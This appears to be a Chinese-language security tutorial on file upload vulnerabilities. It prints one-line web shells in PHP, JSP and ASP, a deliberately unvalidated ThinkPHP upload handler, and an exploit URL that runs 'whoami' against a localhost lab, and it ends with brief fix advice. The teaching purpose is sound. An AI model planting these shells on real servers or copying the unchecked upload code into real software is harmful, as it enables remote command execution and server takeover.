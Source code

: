 ```yaml
---
# 当前页面内容标题
title: 文件上传漏洞
# 当前页面图标
icon: "hot"
# 分类
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: false
# 是否将该文章添加至时间线中
timeline: false
index: false
date: 2022-02-09
dir:
    link: true
---
```


## 漏洞描述

文件上传，在web程序中是一个非常常见的功能，而文件上传漏洞则是一个非常严重的漏洞，造成这个漏洞的原因就是，目标主机对文件上传的类型，没有有效的校验，导致攻击者可以上传恶意文件，从而获得服务器的特权访问，并进一步对服务器进行攻击。

下面是常见的一句话木马：

::: tabs

@tab PHP

```php
<?php eval($_POST['shell']) ?>
```

@tab JSP

```java
  <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream inputStream = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
    String line;
    while ((line = bufferedReader.readLine()) != null){
      response.getWriter().println(line);
    }
  %>

```

@tab ASP

```php
<%eval request("chopper")%>
```

:::

## 漏洞原理

下面是一个通过PHP制作的一个文件上传漏洞

主页`index.html`：

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>首页</title>
</head>
<body>
<p>欢迎{$user}</p>
<!--一个简单的form表单-->
<form action="{:url('index/upload')}" enctype="multipart/form-data" method="post" >
    <input type="file" name="image" /> <br>
    <input type="submit" value="上传" />
</form>
</body>
</html>
```

上传文件代码：

```php
public function upload(): string
{
    if(Session('?user')){
        $file = request()->file('image');
        $savepath = \think\facade\Filesystem::disk('public')->putFile('topic', $file);
        return "上传文件到：" . $savepath;
    }
    return "<a href='//'>请先登录</a>";
}
```

从上面的代码中，我没有对上传文件进行任何校验，并且返回上传的路径，从而人为的造成一个文件上传漏洞

下面是漏洞利用

准备一句话木马（xxx.php）：

```php
<?php @eval($_GET['shell']);?>
```

![image-20230210211508569](/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20230210211508569.png)

木马上传成功后，服务器会返回上传路径

![image-20230210211537159](/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20230210211537159.png)

`thinkphp`返回的路径是`public/storage`目录的相对路径，又因为`public`目录下的文件是公开的，所以添加上在路径前缀添加上`storage`后就可以直接访问。

```
http://127.0.0.1/storage/topic/20230210/021f42ae42edae7a913d58e9f0da2107.php?shell=system(%27whoami%27);
```

![image-20230210213337685](/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20230210213337685.png)

## 修复建议

1. 严格检验文件的类型，设置白名单
2. 重新命名并修改后缀
